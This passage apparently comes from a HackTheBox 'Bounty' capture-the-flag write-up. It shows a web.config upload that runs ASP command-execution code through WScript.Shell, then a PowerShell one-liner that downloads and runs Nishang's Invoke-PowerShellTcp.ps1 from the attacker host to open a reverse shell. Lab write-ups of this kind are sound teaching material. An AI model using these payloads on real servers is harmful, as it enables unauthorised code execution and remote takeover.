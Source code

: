 Uploading this `web.config` file and looking at it on `/uploadedfiles/web.config` gives us output `3`.

![](/assets/images/htb-writeup-bounty/3.png)

So, We confirmed that its running `asp` code. now we'll append a simple `asp` code and execute `ping` command and see if machine is doing a ping to our `IP`.
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c ping 10.10.14.24")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
```
curl http://10.10.10.93/uploadedfiles/web.config 
```
![](/assets/images/htb-writeup-bounty/ping.png)

We're getting `ping's` fromt the bounty machine ip and we confirmed the `code exection`. Now we use `Nishangs` Powershell scripts to get a `reverse shell`. we'll insert the following commnand.
```
cmd /c powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24/Invoke-PowerShellTcp.ps1')
```
![](/assets/images/htb-writeup-bounty/shell.png)